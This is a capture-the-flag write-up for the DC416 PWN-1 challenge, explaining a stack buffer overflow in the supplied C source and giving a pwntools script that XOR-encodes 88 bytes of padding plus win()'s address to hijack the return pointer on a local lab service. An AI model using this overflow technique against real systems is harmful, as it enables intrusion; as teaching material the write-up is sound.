

## DC416 Rapid-fire CTF: PWN-1

> The challenge to exploit is listening on localhost port 10000
> 
> A duplicate challenge that you can attach gdb to is listening on localhost port 10011
> 
> Additional tools that might come in handy:
> 
> * pwntools
> * gdb-peda
> 
> Good luck!

Let's try connecting to port 10000 to see how the binary behaves. 


If we look at the output, we notice a few things: 

* A random number `k` is printed out
* The same input we send is returned encoded

Given the name of the challenge, we can assume that it's XOR encoded. 

The source code for the pwnable is provided, so let's have a look at what we're dealing with: 

```
/*
 * DC416 Rapid Fire CTF Pwnable
 * by superkojiman
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>

void win() {
    FILE *f;
    char buf[30];
    f = fopen("/home/xormaster/flag.txt", "r");
    memset(buf, 0, sizeof(buf));
    fgets(buf, sizeof(buf), f);
    printf("Flag: %s\n", buf);
}

int vuln(char *s, int n) {
    char buf[80]; 
    memset(buf, 0, sizeof(buf)); 
    memcpy(buf, s, n); 
    puts("Did you win?"); 
    return 0; 
}

void xormaster(char *s, int n, int k) {
    int i = 0; 
    for (i = 0; i < n; i++) {
        s[i] = (char)(s[i] ^ k); 
    }
}

int main(int argc, char *argv[]) {
    char buf[0x80]; 
    int n = 0; 
    int k = 0; 

    setbuf(stdout, 0); 
    setbuf(stderr, 0); 

    srand(time(0)); 
    k = rand() % 20 + 1; 

    printf("k is %d\n", k); 

    memset(buf, 0, sizeof(buf)); 
    n = read(0, buf, sizeof(buf)); 

    xormaster(buf, n, k); 
    printf("Encoded input: %s\n", buf); 
    vuln(buf, n); 

    return 0;
}
```

Two functions immediately stand out; `win()`, and `vuln()`. The former opens `flag.txt` and prints out its contents, so this is where we want to go. The latter implies that this funcion is vulnerable to something. Let's take a closer look at what `main()` is doing. 

Here we have an array of 0x80 bytes, which is 128 bytes. 

```
char buf[0x80];
int n = 0;
int k = 0;
```

Next a random number from 1 to 20 is generated and assigned to `k`.

```
srand(time(0));
k = rand() % 20 + 1;

printf("k is %d\n", k);
```

128 bytes is read from the user and stored into the `buf` array. `buf` is then passed into the `xormaster()` function which does something to it, and finally `buf` is passed into `vuln()`. 

```
memset(buf, 0, sizeof(buf));
n = read(0, buf, sizeof(buf));

xormaster(buf, n, k);
printf("Encoded input: %s\n", buf);
vuln(buf, n); 
```

Let's take a look at what `xormaster()` does to our input:

```
void xormaster(char *s, int n, int k) {
    int i = 0;
    for (i = 0; i < n; i++) {
        s[i] = (char)(s[i] ^ k);
    }
}
```

So basically it just iterates through our input and XORs each character with the random value `k`. This encoded buffer and the size of our input is then passed to `vuln()`, so let's see what `vuln()` does:

```
int vuln(char *s, int n) {
    char buf[80];
    memset(buf, 0, sizeof(buf));
    memcpy(buf, s, n);
    puts("Did you win?");
    return 0;
}
```

Here we have an array of 80 bytes (not 0x80 like in `main()`!) and our input is copied into it. So we have a vanilla buffer overflow where we can effectively copy 128 bytes into an 80 byte buffer. This should allow us to overwrite the saved return pointer and allow us to return into `win()`. Let's verify it.

An instance we can debug is listening on port 10011. We just need to connect to it using `nc` and then attach `gdb` to the newly spawned `xormaster` process that belongs to our user. 


Here's the disassembly for `vuln()`.


Let's set a breakpoint at `vuln()+57` which is the call to `memcpy()`. Then continue the running the process. We'll enter some input and it should break at `vuln()` at some point. 


So we know from `memcpy()`'s parameters that the first argument is the destination buffer (in this case an 80 byte array), the second argument is the source buffer (in this case, our input buffer that can go up to 128 bytes in size), and the third argument is the size of our input buffer. 

* destination buffer address: 0x7ffee1d95580
* source buffer address: 0x7ffee1d955f0
* size of source buffer: 0x9

Let's figure out where the saved return pointer is. It's 8 bytes past the saved frame pointer, so we can just pull that up:


So the saved return pointer is at `0x7ffee1d955d8`. In order to figure out how many bytes we need to send in order to overwrite it, we just need to subtract the address of the destination source buffer from the address of the saved return pointer: 


The offset is 88 bytes. If we send 88 bytes followed by the address of `win()`, then `vuln()` will return to `win()` and print out the flag. Let's quickly grab the address of `win()`:



However there's a twist! Recall that the buffer we send gets XOR encoded first before it gets passed into `vuln()`. This means we'll need to decode the buffer so that the saved return pointer gets overwritten with the correct value. How do we do that? 

XOR has the following properties:

```
encoded = plain ^ key
plain   = encoded ^ key
```

The key is printed out to us when we first connect to the service. We can encode our input with the key first before sending it to the service so that it gets decoded when it gets passed to the `xormaster()` function. Lets put together some exploit code:

```
#!/usr/bin/env python
from pwn import *

b = ""
b += "A"*88
b += p64(0x400886)

r = remote("localhost", 10011)
raw_input("Attach gdb to the process now...")

k = r.recv().split()[-1]
print "K:", k

e = ""
for i in b:
    e += str(chr(ord(i) ^ int(k,10)))

r.sendline(e)

print r.recvall()
```

The above will create a payload of 88 bytes followed by the address of `win()`. We then connect to the service and pause the script to give us a chance to attach to the process and set a breakpoint at `vuln()+78`, which is the `ret` instruction. 

Next we read the key and use it to XOR encode each byte in our payload. We send the payload to the service and we should hit the breakpoint here. Let's see how it looks: 


We've successfully overwritten the saved return pointer and `ret` will now return to `win()` and give us our flag. Let's clean up the code so that it removes the pause for attaching gdb, and make sure it connects to the correct port before running it again. We should receive the flag: 


